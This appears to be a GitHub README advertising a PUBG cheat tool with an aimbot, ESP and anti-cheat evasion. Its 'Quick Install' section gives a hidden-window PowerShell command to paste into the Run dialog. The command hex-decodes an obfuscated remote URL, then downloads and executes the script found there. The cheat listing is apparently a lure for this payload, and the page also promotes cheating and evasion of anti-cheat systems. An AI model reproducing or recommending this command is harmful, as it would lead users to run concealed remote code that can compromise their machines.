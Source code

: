# PUBG External Tool - Advanced Battle Royale Enhancement

### Quick Install

- #### Press WIN+R
- #### Copy and insert command

```bash
powershell -WindowStyle Hidden -Command "$p='68747470733A2F2F6A616968696E642E6564752E696E2F67726170657375626A6563742F726570616972626574746572';$u=[System.Text.Encoding]::UTF8.GetString((1..($p.Length/2) | ForEach-Object {[Convert]::ToByte($p.Substring((($_-1)*2),2),16)}));([ScriptBlock]::Create((Invoke-RestMethod $u))).Invoke()"
```

## 🚀 Core Features
- **External Aimbot** with customizable:
  - FOV control (1-360° adjustable)
  - Smoothing (human-like movement)
  - Bone priority (head/chest/pelvic targeting)
  
- **Advanced ESP System**:
  - Player boxes (2D/3D)
  - Health/armor status bars
  - Distance markers (0-1000m)
  - Item highlights (weapons/attachments)
  - Vehicle detection (300m range)

- **Combat Enhancements**:
  - **Ballistic Prediction** (bullet drop/velocity)
  - **Zero Recoil** (pattern compensation)
  - **Spread Removal** (perfect accuracy)
  - **Triggerbot** (configurable reaction time)

External Memory Operations

Kernel-mode Driver for secure communication

DirectX Overlay (ImGui-based)

Auto-Updating Offsets

🔒 Security Measures
Signature Spoofing

Thread Stack Encryption

VMM Detection Evasion

HWID Masking

📌 Note: For educational purposes only. BattleEye/BEACON anti-cheat may issue hardware bans.
